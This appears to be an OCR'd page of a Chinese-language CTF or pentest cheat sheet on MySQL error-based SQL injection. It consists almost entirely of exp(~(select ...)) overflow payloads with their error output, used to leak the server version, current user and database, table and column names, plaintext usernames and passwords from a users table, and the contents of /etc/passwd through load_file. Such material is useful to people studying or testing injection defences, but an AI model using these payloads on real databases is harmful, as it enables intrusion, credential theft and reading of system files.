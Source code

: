```sql
mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
1 row in set, 1 warning (0.00 sec)

mysql> select exp(~(select * from(select version())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '5.5.29' from dual)))'

mysql> select exp(~(select * from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

mysql> select exp(~(select * from(select database())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'ctf' from dual)))'
mysql>
```

注入数据

+ 表名

```sql
mysql> select exp(~(select * from(select group_concat(table_name) from information_schema.tables where table_schema=database())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'flag,users' from dual)))'
mysql>
```

+ 列名

```sql
mysql> select exp(~(select*from(select group_concat(column_name) from information_schema.columns where table_name='users')x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'id,username,password' from dual)))'
mysql>
```

+ 数据

```sql
mysql> select exp(~ (select*from(select group_concat(id, 0x7c, username, 0x7c, password) from users)x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '1|admin|123456,2|whoami|657260,3|bunny|864379' from dual)))'
mysql>
```

+ 读文件

```sql
mysql> select exp(~(select * from(select load_file('/etc/passwd'))x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin' from dual)))'
```
